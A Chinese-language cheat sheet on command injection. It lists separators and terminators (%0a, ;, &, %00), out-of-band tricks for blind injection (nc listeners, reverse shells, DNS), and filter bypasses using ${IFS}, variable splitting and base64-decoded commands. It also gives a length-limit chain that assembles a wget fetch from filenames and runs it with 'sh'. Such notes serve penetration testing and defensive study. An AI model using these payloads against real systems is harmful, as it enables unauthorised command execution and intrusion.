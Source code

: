 命令注入
================================

常见注入方式:
--------------------------------
    - 分号分割
    - ``\r\n`` ``%d0%a0`` 换行 
    - 反引号解析


无回显
--------------------------------
- 利用bash命令并在本地进行nc监听结果查看回连日志
- msf反向回连
- DNS管道解析

常见绕过
--------------------------------

空格绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- ``<`` 符号 ``cat<123``
- ``\t`` / ``%09``
- ``${IFS}`` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

黑名单绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- ``a=l;b=s;$a$b``
- base64 `` `echo "bHM=" | base64 -d ` ``

长度限制绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    >wget\
    >foo.\
    >com
    ls -t>a
    sh a

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行
直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令
这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看)
如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向
而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

各种符号  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

命令分隔符
########################################
- %0a符号
- 换行符
- %0d符号
- 回车符
- ;符号
- &符号

命令终止符
########################################
- %00
- %20#


